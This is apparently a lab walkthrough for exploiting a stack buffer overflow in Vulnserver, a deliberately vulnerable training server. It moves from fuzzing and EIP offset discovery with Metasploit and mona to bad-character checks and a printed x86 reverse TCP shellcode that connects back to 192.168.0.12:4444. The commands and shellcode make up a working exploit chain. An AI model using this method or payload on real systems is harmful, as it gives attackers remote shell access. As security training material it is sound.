

Testing and Exploiting Buffer Overflows.

The following components were used as test environment:

- [Kali Linux 2002.2](https://www.kali.org/news/kali-linux-2020-2-release/)
- Windows 7 Ultimate x64
- [Vulnserver](http://sites.google.com/site/lupingreycorner/vulnserver.zip)
- [IMMUNITY DEBUGGER](https://www.immunityinc.com/products/debugger/index.html)
- [Mona.py](https://github.com/corelan/mona)
- [Wireshark](https://www.wireshark.org/download.html)
- [Terminator](https://terminator-gtk3.readthedocs.io/en/latest/)

The goal of the buffer overflow is to create a reverse shell within the test environment.

#### Step 1: Test Connection to vulnserver
To test the connection to the Vulner server, you can run the script 01_test_connection.py A socket connection to the Vulnserver is established and the command Help is sent to the server.
     
    python3 01_test_connection.py

#### Step 2 Finding the buffersize wich crashed the application
With the next command we try to find out the buffer size that causes the Vuln server to crash.
To do this we need Wireshark to capture TCP traffic. To start Wireshark just run 02_b_wireshark_cap_pcap.py, then 02_a_generic_send_tcp.py to find out the required buffer size.

Starts wireshark with interface eth0 as capture interface, target ip 192.168.0.49 runs for 20 seconds and saves the file as buffersize.pcap.

    python3 02_b_wireshark_cap_pcap.py eth0 buffersize.pcap 192.168.0.49 20

Executes the generic_send_tcp command, destination ip 192.168.0.49 with destination port 9999, uses trun.spk as spike template and the variables skip variable and skipo string are set to ß.

    python3 02_a_generic_send_tcp.py 192.168.49 9999 trun.spk 0 0

trun.spk

    s_readline();
    s_string("TRUN ");
    s_string_variable("FUZZ");

The fuzzing script should crash vulnserver around 5060 Bytes. In wireshark you can see the buffersize if you follow the tcp stream which contains the "TRUN" command

In the immunity debugger you see the following entry:

Alternative method to determine the buffer size that leads to a crash of the application.

####  STEP 3: Check the buffersize
To check the buffer size we send the TRUN command including 5000 x A to the vulnserver. It may be necessary to adjust the target IP address.

    python3 03_check_buffersize.py 192.168.0.49 9999

With this crash we have verified the correct buffer size. Now we create a unique pattern of bytes. To create the pattern there are different variants. We can use the command pattern_create (metasploit or exploit pattern) with the given buffer size or the Python script "!mona" (which is inside the immunity debugger installation path)

    /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 5000
    
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
    Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
    Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
    Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1
    Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9
    Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7
    Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5
    At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3
    Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1
    Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9
    Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7
    Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5
    Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3
    Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1
    Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9
    Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7
    Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5
    Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3
    By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1
    Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9
    Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7
    Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5
    Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3
    Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1
    Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9
    Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7
    Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5
    Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3
    Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1
    Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9
    Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7
    Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5
    Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3
    Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1
    Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9
    Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7
    Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5
    Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3
    Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1
    Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9
    Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7
    Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5
    En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3
    Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1
    Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9
    Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7
    Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5
    Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3
    Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1
    Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9
    Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7
    Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5
    Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3
    Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1
    Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9
    Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7
    Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5
    Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3
    Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1
    Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk

    
or 

    !mona pc 5000
    Creating cyclic pattern of 5000 bytes

    Log data, item 6
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
    [+] Preparing output file 'pattern.txt'
        - (Re)setting logfile C:\tools\BOF_WIN\pattern.txt
    Note don't copy this pattern from the log window, it might be truncated !
    It's better to open C:\tools\BOF_WIN\pattern.txt and copy the pattern from the file
          

####  STEP 4: Send uniqe pattern
Now we send the previously created unique pattern instead of the 5000 "A".

    python3 04_send_pattern.py 192.168.0.49 9999

After we have sent the pattern and the application has crashed again we have to extract the EIP value. This value is needed to create the Pattern Offset. To create the offset we use the metasploit tool pattern_offset. Again we specify the memory size 5000 and the extracted EIP value.

    /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
    [*] Exact match at offset 2003
    
    
#### STEP 5: Confirm offset / Overwrite EIP
    python3 
     python3 05_confirm_offset.py
The EIP contains the following value: 45444342 . The transmitted letters are written into the memory as hexadecimal values in reverse order. Little-Endian uses this scheme to store the values in memory.
    
#### STEP 6: dentify Bad Characters
    !mona bytearray -cpb \x00\x80
    !mona compare -f C:\logs\vulnserver\bytearray.bin -a  0267F9E0
#### STEP 7: Remove badchars
    python3 07_remove_badcharst.py
#### STEP 8: Generate reverse shell
We generate a shell code with the following properties: System Architecture: x86, Platform: Windows, Shelltype: reverse tcp. The parameters LHOST, LPORT and BAD_CHAR are passed to the python as arguments. 
    
    python3 08_generate_reverse_shell.py 192.168.0.12 4444 "\x00"

    shellcode =  b""
    shellcode += b"\xdb\xd1\xbf\x33\xfc\x23\x64\xd9\x74\x24\xf4"
    shellcode += b"\x5e\x31\xc9\xb1\x52\x31\x7e\x17\x83\xc6\x04"
    shellcode += b"\x03\x4d\xef\xc1\x91\x4d\xe7\x84\x5a\xad\xf8"
    shellcode += b"\xe8\xd3\x48\xc9\x28\x87\x19\x7a\x99\xc3\x4f"
    shellcode += b"\x77\x52\x81\x7b\x0c\x16\x0e\x8c\xa5\x9d\x68"
    shellcode += b"\xa3\x36\x8d\x49\xa2\xb4\xcc\x9d\x04\x84\x1e"
    shellcode += b"\xd0\x45\xc1\x43\x19\x17\x9a\x08\x8c\x87\xaf"
    shellcode += b"\x45\x0d\x2c\xe3\x48\x15\xd1\xb4\x6b\x34\x44"
    shellcode += b"\xce\x35\x96\x67\x03\x4e\x9f\x7f\x40\x6b\x69"
    shellcode += b"\xf4\xb2\x07\x68\xdc\x8a\xe8\xc7\x21\x23\x1b"
    shellcode += b"\x19\x66\x84\xc4\x6c\x9e\xf6\x79\x77\x65\x84"
    shellcode += b"\xa5\xf2\x7d\x2e\x2d\xa4\x59\xce\xe2\x33\x2a"
    shellcode += b"\xdc\x4f\x37\x74\xc1\x4e\x94\x0f\xfd\xdb\x1b"
    shellcode += b"\xdf\x77\x9f\x3f\xfb\xdc\x7b\x21\x5a\xb9\x2a"
    shellcode += b"\x5e\xbc\x62\x92\xfa\xb7\x8f\xc7\x76\x9a\xc7"
    shellcode += b"\x24\xbb\x24\x18\x23\xcc\x57\x2a\xec\x66\xff"
    shellcode += b"\x06\x65\xa1\xf8\x69\x5c\x15\x96\x97\x5f\x66"
    shellcode += b"\xbf\x53\x0b\x36\xd7\x72\x34\xdd\x27\x7a\xe1"
    shellcode += b"\x72\x77\xd4\x5a\x33\x27\x94\x0a\xdb\x2d\x1b"
    shellcode += b"\x74\xfb\x4e\xf1\x1d\x96\xb5\x92\xe1\xcf\xb5"
    shellcode += b"\x6e\x8a\x0d\xb5\x7f\x16\x9b\x53\x15\xb6\xcd"
    shellcode += b"\xcc\x82\x2f\x54\x86\x33\xaf\x42\xe3\x74\x3b"
    shellcode += b"\x61\x14\x3a\xcc\x0c\x06\xab\x3c\x5b\x74\x7a"
    shellcode += b"\x42\x71\x10\xe0\xd1\x1e\xe0\x6f\xca\x88\xb7"
    shellcode += b"\x38\x3c\xc1\x5d\xd5\x67\x7b\x43\x24\xf1\x44"
    shellcode += b"\xc7\xf3\xc2\x4b\xc6\x76\x7e\x68\xd8\x4e\x7f"
    shellcode += b"\x34\x8c\x1e\xd6\xe2\x7a\xd9\x80\x44\xd4\xb3"
    shellcode += b"\x7f\x0f\xb0\x42\x4c\x90\xc6\x4a\x99\x66\x26"
    shellcode += b"\xfa\x74\x3f\x59\x33\x11\xb7\x22\x29\x81\x38"
    shellcode += b"\xf9\xe9\xb1\x72\xa3\x58\x5a\xdb\x36\xd9\x07"
    shellcode += b"\xdc\xed\x1e\x3e\x5f\x07\xdf\xc5\x7f\x62\xda"
    shellcode += b"\x82\xc7\x9f\x96\x9b\xad\x9f\x05\x9b\xe7"

    
#### STEP 9: Send exploit
    python3 09_send_exploit.py

